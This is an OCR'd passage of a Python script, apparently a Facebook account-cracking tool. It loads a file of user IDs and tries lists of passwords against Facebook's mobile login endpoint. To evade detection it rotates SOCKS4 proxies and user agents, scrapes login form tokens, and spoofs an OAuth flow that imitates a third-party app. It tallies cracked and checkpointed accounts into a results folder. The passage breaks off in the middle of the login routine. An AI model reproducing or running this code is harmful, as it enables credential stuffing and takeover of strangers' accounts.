             print(f" {H}[{H}×{H}] Select Between y/t");__chigoue__().chi(id)
        self.cnt = input('\033[1;92m[+] Enter File Name :\033[1;92m ')
        self.id = open(self.cnt).read().splitlines()
        os.system('clear')
        ___two___ = ('y')
        if ___two___ in ('yes', 'Yes', 'Y', 'y'):
#            self.__ok__()
            self.__pler__()
        else:
            print(' [!] Choose Correct One')
            self.chi(id)

# PROSES CRACK METODE 3 in 1
    def __metode__(self, cebok, user, pasw):
        global ok,cp,loop
        animasi = random.choice(["\x1b[1;92m[SHYN]","\x1b[1;92m[SHYN]","\x1b[1;92m[SHYN]","\x1b[1;92m[SHYN]","\x1b[1;92m[SHYN]","\x1b[1;92m[SHYN]","\x1b[1;92m[SHYN]"])
        sys.stdout.write(f"\r {N}{animasi} {N}{loop}{N}/{M}{len(self.id)} {N}[{H}OK:{len(ok)}{N}][{K}CP:{len(cp)}{N}] [{H}{'{:.1%}'.format(loop/float(len(self.id)))}{N}]")
        sys.stdout.flush()   
        try:os.mkdir('results')
        except:pass
        try:
            for pw in pasw:
                pw = pw.lower()
                session=requests.Session()
                nip=random.choice(prox)
                proxs= {'http': 'socks4://'+nip}
                ua = random.choice(ugen)
                ua2 = random.choice(ugen2)
                session.headers.update({'Host': cebok,'cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})
                p = session.get('https://'+cebok+'/login/device-based/password/?uid='+user+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr')
                dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":user,"next":"https://"+cebok+"/v2.3/dialog/oauth?app_id=124024574287414&cbt=1651658200978&e2e=%7B%22init%22%3A1651658200978%7D&sso=chrome_custom_tab&scope=email&state=%7B%220_auth_logger_id%22%3A%2268f15bae-23f8-463c-8660-5cf1226d97f6%22%2C%227_challenge%22%3A%22dahj28hqtietmhrgprpp%22%2C%223_method%22%3A%22custom_tab%22%7D&redirect_uri=fbconnect%3A%2F%2Fcct.com.instathunder.app&response_type=token%2Csigned_request%2Cgraph_domain%2Cgranted_scopes&return_scopes=true&ret=login&fbapp_pres=0&logger_id=68f15bae-23f8-463c-8660-5cf1226d97f6&tp=unspecified","flow":"login_no_pin","pass":pw,}
                koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
                koki+=' m_pixel_ratio=2.625; wd=412x756'